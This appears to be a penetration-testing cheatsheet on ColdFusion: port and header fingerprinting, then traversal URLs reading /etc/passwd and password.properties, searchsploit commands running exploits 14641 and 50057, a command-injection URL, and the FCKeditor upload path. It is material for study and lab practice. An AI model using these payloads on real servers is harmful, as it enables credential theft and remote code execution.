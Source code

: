 # Discovery & Enumeration
ColdFusion exposes a fair few ports by default:
- 80 HTTP
- 443 HTTPS
- 1935 RPC
- 25 SMTP
- 8500 SSL
- 5500 Server Monitor
It's important to note that default ports can be changed during installation or configuration.

## Enumeration
### Port Scanning
ColdFusion typically uses port 80 for HTTP and port 443 for HTTPS by default. So, scanning for these ports may indicate the presence of a ColdFusion server. Nmap might be able to identify ColdFusion during a services scan specifically.
The /CFIDE/administrator path, however, loads the ColdFusion 8 Administrator login page. Now we know for certain that ColdFusion 8 is running on the server
### File Extensions
ColdFusion pages typically use ".cfm" or ".cfc" file extensions. If you find pages with these file extensions, it could be an indicator that the application is using ColdFusion.
### HTTP Headers
Check the HTTP response headers of the web application. ColdFusion typically sets specific headers, such as "Server: ColdFusion" or "X-Powered-By: ColdFusion", that can help identify the technology being used.
### Error Messages
If the application uses ColdFusion and there are errors, the error messages may contain references to ColdFusion-specific tags or functions.
### Default Files
ColdFusion creates several default files during installation, such as "admin.cfm" or "CFIDE/administrator/index.cfm". Finding these files on the web server may indicate that the web application runs on ColdFusion.
# Attacking ColdFusion
## ColdFusion 8
```
searchsploit adobe coldfusion
```
### Adobe ColdFusion - Directory Traversal
```
http://example.com/index.cfm?directory=../../../etc/&file=passwd
```
#### Adobe ColdFusion 9.0.1 and earlier versions.
- CFIDE/administrator/settings/mappings.cfm
- logging/settings.cfm
- datasources/index.cfm
- j2eepackaging/editarchive.cfm
- CFIDE/administrator/enter.cfm
CVE-2010-2861 is the Adobe ColdFusion - Directory Traversal exploit discovered by searchsploit. It is a vulnerability in ColdFusion that allows attackers to conduct path traversal attacks.
Remote attackers can exploit this vulnerability to read arbitrary files by manipulating the locale parameter in these specific ColdFusion files
```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
```
#### searchsploit
```
searchsploit -p 14641
```
```
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
```
```
python2 14641.py
```
```
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```
### Adobe ColdFusion 8 - Remote Command Execution (RCE)
Unauthenticated RCE attack occurs when an attacker can execute arbitrary code on the server without requiring any authentication. This can happen when a web application allows the execution of arbitrary code through a feature or function that does not require authentication, such as a debugging console or a file upload functionality.
```
http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```
#### Adobe ColdFusion versions 8.0.1 and earlier
##### CVE-2009-2265 FCKeditor
Exploit allowed unauthenticated users to upload files and gain remote code execution on the target host
```
http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=
```

##### Searchsploit
```
searchsploit -p 50057
```
```
python3 50057.py
```